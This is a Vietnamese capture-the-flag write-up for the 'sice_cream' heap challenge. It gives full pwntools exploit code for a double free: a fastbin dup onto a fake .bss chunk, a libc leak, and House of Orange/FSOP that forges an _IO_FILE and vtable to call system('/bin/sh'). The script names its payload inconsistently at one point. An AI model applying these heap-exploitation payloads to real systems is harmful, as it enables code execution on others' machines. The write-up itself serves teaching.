# Challenge: sice_cream



```
Bug: Double free
Technique: House of Orange
```

## Pseudo Code:

-main():
```c
void __fastcall __noreturn main(int a1, char **a2, char **a3)
{
  int opt; // eax
  char buf[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  puts("Welcome to the Sice Cream Store!");
  puts("We have the best sice cream in the world!");
  puts("Whats your name?");
  printf("> ");
  read(0, &byte_602040, 0x100u);
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        menu();
        printf("> ");
        read(0, buf, 0x10u);
        opt = strtoul(buf, 0, 10);
        if ( opt != 2 )
          break;
        eat();
      }
      if ( opt > 2 )
        break;
      if ( opt != 1 )
        goto LABEL_13;
      buy();
    }
    if ( opt != 3 )
    {
      if ( opt == 4 )
        puts("Too hard? ;)");
LABEL_13:
      exit(0);
    }
    reintroduce();
  }
}
```

-buy():
```c
unsigned __int64 buy()
{
  unsigned int size; // [rsp+8h] [rbp-28h]
  int idx; // [rsp+Ch] [rbp-24h]
  char buf[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  idx = sub_4008A7();
  if ( idx < 0 )
  {
    puts("Out of space!");
    exit(-1);
  }
  puts("How much sice cream do you want?");
  printf("> ");
  read(0, buf, 0x10u);
  size = strtoul(buf, 0, 10);
  if ( size > 0x58 )
  {
    puts("That's too much sice cream!");
    exit(-1);
  }
  qword_602140[idx] = malloc(size);
  puts("What flavor?");
  printf("> ");
  read(0, (void *)qword_602140[idx], size);
  puts("Here you go!");
  return __readfsqword(0x28u) ^ v4;
}
```

-eat():
```c
unsigned __int64 eat()
{
  unsigned int idx; // [rsp+Ch] [rbp-24h]
  char buf[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Which sice cream do you want to eat?");
  printf("> ");
  read(0, buf, 0x10u);
  idx = strtoul(buf, 0, 10);
  if ( idx > 19 )
  {
    puts("Invalid index!");
    exit(-1);
  }
  free((void *)qword_602140[idx]);              // uaf
  puts("Yum!");
  return __readfsqword(0x28u) ^ v3;
}
```

-reintroduce():
```c
int reintroduce()
{
  puts("What's your name again?");
  printf("> ");
  read(0, byte_602040, 0x100u);                 // leak
  return printf("Ah, right! How could a forget a name like %s!\n", byte_602040);
}
```

## Phân tích

Binary là ELF 64-bit, không PIE nên các địa chỉ `.bss` cố định. Checksec:

```
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
RUNPATH:    b'.'
```

Các vùng quan trọng:

```py
name_addr  = 0x602040
array_addr = 0x602140
```

Chương trình có 3 chức năng chính:

- `buy`: tìm slot trống, nhập size tối đa `0x58`, `malloc(size)`, rồi ghi flavor vào chunk.
- `eat`: nhập index rồi `free(qword_602140[idx])`, nhưng không set con trỏ về `NULL`.
- `reintroduce`: ghi tối đa `0x100` byte vào `name` ở `.bss`, sau đó in lại bằng `%s`.

Bug chính nằm ở `eat`: sau khi `free`, pointer vẫn còn trong mảng, nên có thể free lại cùng một chunk để tạo double free (Dễ dàng thực hiện vì chương trình dùng `GLIBC 2.23`). Vì size tối đa là `0x58`, các chunk được cấp phát rơi vào fastbin size `0x60`. Kết hợp với việc `.bss` không randomize, ta có thể dùng fastbin dup để ép `malloc` trả về chunk giả nằm gần `name`.

`reintroduce` cũng rất hữu ích vì:

- Có thể ghi trực tiếp metadata của fake chunk tại `0x602040`.
- Khi in bằng `%s`, nếu không có null byte sớm thì output sẽ chạy qua các byte phía sau `name`, giúp leak pointer được allocator ghi vào fake chunk.

Do Full RELRO, không thể ghi đè GOT. NX cũng bật nên hướng ổn định là leak libc rồi dùng kỹ thuật House of Orange/FSOP trên glibc 2.23 để chiếm điều khiển qua `_IO_list_all`.

## Khai thác

```py
def buy(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'> ', str(size).encode())
    p.sendlineafter(b'> ', data)

def eat(idx):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'> ', str(idx).encode())

def reintroduce(data):
    p.sendlineafter(b'> ', b'3')
    p.sendafter(b'> ', data)
```

### Stage 1: Leak libc bằng unsorted bin

Đầu tiên dựng một fake fastbin chunk header tại `name_addr`:

```py
fake_chunk = p64(0) + p64(0x61)
reintroduce(fake_chunk)
```

Ở đây `0x61` là chunk size `0x60` kèm bit `PREV_INUSE`, khớp với fastbin của request size `0x58`.

Sau đó tạo fastbin dup:

```py
buy(0x58, b'A')   # idx 0 = A
buy(0x58, b'B')   # idx 1 = B

eat(0)
eat(1)
eat(0)              # fastbin: A -> B -> A
```



Allocate lại chunk `A` và ghi `fd = name_addr`:

```py
buy(0x58, p64(name_addr))
buy(0x58, b'C')
buy(0x58, b'D')
buy(0x58, b'fake_chunk')
```

Lần `buy` cuối khiến `malloc` lấy fake chunk tại `0x602040`, vì tại `0x602048` đã có size `0x61` hợp lệ. Pointer trả về là `0x602050`, và slot tương ứng sẽ được dùng để `free` fake chunk ở bước sau.



Tiếp theo, đổi fake chunk từ fastbin size sang unsorted-bin size:

```py
fake_chunk = flat(
    0, 0x91, b'A'*0x80,
    0, 0x21, b'B'*0x10,
    0, 0x21
    )

reintroduce(fake_chunk)
```



Fake chunk bắt đầu tại `0x602040`, size `0x91` tương ứng chunk size `0x90`. Hai fake next chunk size `0x21` phía sau được đặt để vượt qua các kiểm tra cơ bản của `free`.

Khi gọi:

```py
eat(5)
```

thực chất chương trình `free(0x602050)`, tức allocator nhìn thấy chunk header tại `0x602040` và đưa fake chunk này vào unsorted bin. Lúc đó libc sẽ ghi con trỏ `fd/bk` của unsorted bin vào vùng user data của fake chunk, tức từ `0x602050`.



Ta ghi đè 16 byte đầu bằng `A` rồi để `%s` in tiếp qua vùng `fd`:

```py
reintroduce(b'A'*0x10)
p.recvuntil(b'A'*0x10)
libc.address = u64(p.recv(6) + b'\0'*2) - 0x3c4b78
log.info("libc_base: " + hex(libc.address)) 
```

Giá trị leak là địa chỉ trong `main_arena`, offset dùng trong exploit là:

```py
main_arena_leak = libc_base + 0x3c4b78
```



**-> Đã có libc_base**

Từ đó tính được libc base, rồi lấy:

```py
io_list_all = libc.sym._IO_list_all
system_addr = libc.sym.system
```

### Stage 2: House of Orange / FSOP

Sau stage 1, fake chunk ở `.bss` vẫn là một chunk đã bị free. Ta ghi lại vùng `name` thành một fake `_IO_FILE_plus` đồng thời giữ metadata cần cho unsorted-bin attack:

```py
fake_chunk = flat(
    b"/bin/sh\0",       # fp
    0x61,
    0,                  # fd
    io_list_all - 0x10, # bk
    0,                  # _IO_write_base
    1,                  # _IO_write_ptr
    0, 0,
    0,                  # vtable
    0,              
    0,
    system_addr         # vtable + 0x18 (_overflow)
    )
```

Ý nghĩa chính:

- Fake FILE bắt đầu bằng chuỗi `/bin/sh\0`; khi gọi `system(fp)`, `rdi` trỏ vào đây nên tương đương `system("/bin/sh")`.
- `bk = _IO_list_all - 0x10`; khi allocator xử lý unsorted bin, phép ghi `bk->fd = unsorted_chunks(av)` sẽ ghi đè `_IO_list_all`.
- `_IO_write_base = 0`, `_IO_write_ptr = 1` để thỏa điều kiện flush: `_IO_write_ptr > _IO_write_base`.

Sau đó dựng fake vtable tại `name_addr + 0x40`:

```py
fake_chunk = fake_chunk.ljust(0x68, b'\0') + p64(0)  # _chain
fake_chunk = fake_chunk.ljust(0xc0, b'\0') + p64(0)  # _mode <= 0
fake_chunk = fake_chunk.ljust(0xd8, b'\0') + p64(0x602040 + 0x40) # Vtable_address

reintroduce(payload)
```



Trong `_IO_jump_t`, slot `__overflow` nằm tại `vtable + 0x18`, nên đặt `system_addr` ở offset đó. Khi `_IO_flush_all_lockp` flush fake FILE, nó sẽ gọi:

```c
fp->vtable->__overflow(fp, EOF)
```

tương đương:

```c
system(0x602040)
```

và vì `0x602040` chứa `/bin/sh\0`, ta lấy được shell.

Cuối cùng trigger bằng một lần `malloc`:

```py
p.sendlineafter(b"> ", b"1")
p.sendafter(b"> ", b"10")
p.interactive()
```

Lần `malloc(10)` làm allocator xử lý unsorted bin đã bị sửa `bk`, ghi đè `_IO_list_all`, rồi đi vào đường lỗi `malloc_printerr`. Trên glibc 2.23, đường `abort` này gọi flush toàn bộ FILE stream, dẫn tới fake vtable và gọi `system("/bin/sh")`.







-> Remote lên server và lấy flag:



***-> Đã chiếm được shell***